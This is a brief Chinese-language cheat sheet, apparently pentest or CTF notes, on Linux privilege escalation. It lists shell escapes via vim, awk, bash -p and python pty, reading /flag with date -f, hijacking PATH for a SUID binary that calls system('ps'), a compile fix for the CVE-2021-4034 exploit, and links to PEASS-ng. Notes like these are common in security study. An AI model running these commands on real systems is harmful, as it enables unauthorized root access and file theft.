 ```bash
vim
set shell=/bin/sh
shell
```

- bash `bash-p`
- awk `awk BEGIN {system ("/bin/sh")}`
- python

```bash
# webshell反弹用pty
python -c "import pty;pty.spawn('/bin/bash')"
# os.spawn是交互shell,不行.这里要用pty
python -c "import os;os.spawn('/bin/bash')"
```

date  `date -f /flag`

### 环境变量提权

suid 程序中 `system("ps");`, 可控ps写成执行文件加到环境变量即可

```bash
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
```

## CVE-2021-4034

```sh
Q: gcc: error trying to exec 'ccl1'
A:
find / -name cc1
export PATH=$PATH:/usr/libexec/gcc/x86_64-redhat-linux/4.8.2/
```

# 工具

[PEASS-ng](https://blog.csdn.net/weixin_43571641/article/details/124374117) [L2](https://forum.butian.net/share/348)
